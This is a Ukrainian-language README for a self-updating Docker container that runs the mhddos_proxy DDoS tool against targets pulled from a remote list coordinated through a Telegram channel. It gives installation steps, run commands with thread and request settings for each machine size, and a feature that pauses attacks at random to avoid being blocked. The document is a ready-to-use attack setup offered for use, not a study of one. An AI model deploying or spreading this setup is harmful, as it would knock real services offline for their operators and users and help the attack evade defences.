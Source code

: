 # Опис docker

### ЯКЩО ВИ КОРИСТУВАЧ WINDOWS, ТО ЗАБУДЬТЕ ПРО ДОКЕР, БО ЦЕ ВІРТУАЛКА, ЯКА ЖРЕ УВЕСЬ ПРОЦЕССОР, ТА ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/runner_for_windows  
### ЯКЩО ВИ КОРИСТУВАЧ LINUX - ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/auto_mhddos_alexnest
  
### ЯКЩО ВИ ТАКИ ХОЧЕТЕ НАСИЛУВАТИ СВІЙ ПРОЦЕСОР - РОБІТЬ ТЕ ЩО НИЖЧЕ:  

ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) docker-контейнер для будь-яких машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише цілі, а й скрипти з mhddos_proxy та MHDDoS  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 2-6 (рандомно) хвилин), тому знижується можливість блокування  
Скрипт розподіляє список машин по різним цілям: https://github.com/alexnest-ua/targets/blob/main/targets_docker  
Увесь source code знаходиться тут: https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker  
  
[**Налаштування**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker#%D0%BD%D0%B0%D0%BB%D0%B0%D1%88%D1%82%D1%83%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
[**Запуск у фон**](https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/docker/README.md#%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%BD%D0%B0-%D1%80%D0%BE%D0%B1%D0%BE%D1%82%D1%83-%D1%83-%D1%84%D0%BE%D0%BD%D1%96-247-%D0%BD%D0%B0-linux-%D1%81%D0%B5%D1%80%D0%B2%D0%B5%D1%80%D1%96-%D1%82%D0%B0-%D0%B4%D0%BE-%D0%B7%D0%B0%D0%B2%D0%B5%D1%80%D1%88%D0%B5%D0%BD%D0%BD%D1%8F-%D1%80%D0%BE%D0%B1%D0%BE%D1%82%D0%B8-%D0%BD%D0%B0-windows---%D0%BC%D0%BE%D0%B6%D0%BD%D0%B0-%D0%B7%D0%B0%D0%BA%D1%80%D0%B8%D0%B2%D0%B0%D1%82%D0%B8-%D1%82%D0%B5%D1%80%D0%BC%D1%96%D0%BD%D0%B0%D0%BB)  
[**Приклади команд НЕ у фон**](https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/docker/README.md#%D0%BF%D1%80%D0%B8%D0%BA%D0%BB%D0%B0%D0%B4%D0%B8-%D0%BA%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4-%D0%BD%D0%B5-%D1%83-%D1%84%D0%BE%D0%BD-%D0%B7-%D1%80%D1%96%D0%B7%D0%BD%D0%B8%D0%BC%D0%B8-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D0%B0%D0%BC%D0%B8%D0%B4%D0%BB%D1%8F-linux-%D0%B4%D0%BE%D0%B4%D0%B0%D0%B2%D0%B0%D0%B9%D1%82%D0%B5-sudo-%D0%B0%D0%B1%D0%BE-%D0%BA%D1%80%D0%B0%D1%89%D0%B5-%D1%81%D1%82%D0%B0%D0%B2%D1%82%D0%B5-%D0%BD%D0%B0-%D0%BF%D1%80%D1%8F%D0%BC%D1%83-httpsgithubcomalexnest-uaauto_mhddos_alexnest)  

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Linux запущено цей скрипт - то можете відпочивати, він все зробить за вас)  
Чат, де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
Також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead  
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Windows / Mac:  
https://www.docker.com/get-started/ (якщо виникають якісь проблеми: пишіть мені @brainqdead (телеграм)

* щоб скачати на Linux-машину(але краще ставте напряму: https://github.com/alexnest-ua/auto_mhddos_alexnest ):  
```
sudo apt update -y
sudo apt upgrade -y
sudo curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
sudo echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt update -y
sudo apt remove docker docker-engine docker.io -y
sudo apt install docker-ce -y
sudo systemctl unmask docker.service
sudo systemctl unmask docker.socket
sudo systemctl start docker.service
sudo systemctl start docker
sudo systemctl enable docker
sudo docker run hello-world
docker run -it --rm --pull always alexnestua/auto_mhddos
```
  
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері та до завершення роботи на Windows) - можна закривати термінал
Запуск автоматичного ДДоСу(без виведення на екран):  
```
docker run -itd --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 
```

**!!!УВАГА!!!** контейнер підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
docker run -it --rm --pull always --name alexnest alexnestua/auto_mhddos [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих за один прохід цілей
- threads - кількість потоків на кожне ядро процесора
- rpc - кількість запитів на проксі перед відправкою на ціль
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд з різними параметрами(для Linux додавайте sudo, або краще ставте на пряму: https://github.com/alexnest-ua/auto_mhddos_alexnest):

1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=3000 rpc=1000 debug="" (1 ціль, 3000 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу)
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest
```
**CPUs** - це ядра вашого процесора - зазвичай ядер у два рази менше ніж потоків

2. Слаба машина(1 CPU + 1-2 GB RAM), саме ці параметри за замовчуванням:
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 3000 1000
```

3. Середня машина(2-4 CPUs + 2-8 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 5000 2000
```

4. Нормальна машина(4-8 CPUs + 8-16 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 2 6000 2000
```

5. Потужна машина(9+ CPUs + 16+ CB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest all 6000 5000
```

Після цього, якщо хочете вбити процес - натискайте Ctrl+C  (у його відкритій вкладці)  

*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 3000 1000 --debug
```

* Приклад БЕЗ параметру --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_no_debug.png?raw=true)
І після цього наступні 300 секунд НІЧОГО не буде виводитись, але це нормально
* Приклад З параметром --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_debug.png?raw=true)

* щоб подивитися що там працює у фоні(для Linux додайте sudo) та вбити процес:  
```
docker ps  -a
щоб вбити запущені раніше фонові підпроцеси на Linux прописуєте:  
sudo docker kill $(docker ps -aqf name=alexnestua)
або на Windows зайти у Docker Dekstop -> Containers / Apps -> Видалити container з ім'ям alexnestua
```



## Список цілей  

  
ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest підтримує єдиний [список цілей](https://github.com/alexnest-ua/targets/blob/main/targets_docker), який можна тримати на github і постійно оновлювати.  
  
    
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються не на #.  

## Thanks

Special thanks to https://github.com/OleksandrBlack and https://twitter.com/SprechenFuehrer  
